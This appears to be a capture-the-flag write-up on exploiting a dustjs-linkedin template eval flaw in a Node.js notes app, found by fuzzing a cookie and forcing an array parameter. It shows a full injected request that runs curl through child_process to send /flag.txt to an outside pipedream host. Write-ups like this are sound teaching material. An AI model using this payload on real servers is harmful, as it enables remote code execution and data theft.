 Long story short, we can add and delete notes. Playing with some requests in Burp I noticed that the cookie changes on every new note added or deleted. It turns out the cookie stores an array of objects in the next form: `j:[{"id":1,"body":"Hack this"}]`
I assume this is some kind of serialized value that I need to exploit (not really, keep reading), but I have no idea what programming language runs on the server, so I modified the cookie into `j:[{"id":1,"body":"Hack this"},{"id":1,"body":__FILE__}]` hoping to find out more.
Fortunately, the server responded with an error message that tells us that the server runs on Node.js.
```text
TypeError: note.filter is not a function
    at /app/app.js:96:34
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
    at param (/app/node_modules/express/lib/router/index.js:354:14)
    at param (/app/node_modules/express/lib/router/index.js:365:14)
    at Function.process_params (/app/node_modules/express/lib/router/index.js:410:3)
    at next (/app/node_modules/express/lib/router/index.js:275:10)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:91:12)
    at trim_prefix (/app/node_modules/express/lib/router/index.js:317:13)
    at /app/node_modules/express/lib/router/index.js:284:7
    at Function.process_params (/app/node_modules/express/lib/router/index.js:335:12)
    at next (/app/node_modules/express/lib/router/index.js:275:10)
    at urlencodedParser (/app/node_modules/body-parser/lib/types/urlencoded.js:82:7)
```
However, this doesn't give us much, so fuzzing a bit more I get the next error message for `j:[{"id":1,"body":["Hack this'"]}]`:

```json
{"stack":"SyntaxError: Unexpected string\n    at Object.if (/home/ctf/node_modules/dustjs-helpers/lib/dust-helpers.js:215:15)\n    at Chunk.helper (/home/ctf/node_modules/dustjs-linkedin/lib/dust.js:769:34)\n    at body_1 (evalmachine.<anonymous>:1:972)\n    at Chunk.section (/home/ctf/node_modules/dustjs-linkedin/lib/dust.js:654:21)\n    at body_0 (evalmachine.<anonymous>:1:847)\n    at /home/ctf/node_modules/dustjs-linkedin/lib/dust.js:122:11\n    at processTicksAndRejections (internal/process/task_queues.js:79:11)","message":"Unexpected string"}
```
Looking into this response, I noticed the error is thrown from `dustjs`. I didn't know about it, but I searched for `dustjs exploit` and I found some good articles ([here's one](https://artsploit.blogspot.com/2016/08/pprce2.html)) about a RCE vulnerability.

It seems that dustjs uses eval for interpreting inputs. However, the library does sanitize the input if *it is a string*. Providing anything else as input will let us bypass the sanitization and we can provide an array when creatin a new message.

I didn't find a way to return the content of the flag inside the response, so I had to send it to a remote server (I used [pipedream](https://pipedream.com) as host).
Adjust the payload used in the article, we'll have the next request:

```text
GET /addNotes?message[]=x&message[]=y'-require('child_process').exec('curl%20-F%20"x%3d`cat%20/flag.txt`"%20https://en5dsa3dt3ggpvb.m.pipedream.net')-' HTTP/1.1
```
This will make `message` an array, so it will bypass the sanitization, and it will take the content of `/flag.txt` and send it with curl to my host. Going to pipedream I can see the flag.
![image](https://user-images.githubusercontent.com/38787278/94352067-32df6780-0069-11eb-8f5c-4ad4108cacb2.png)
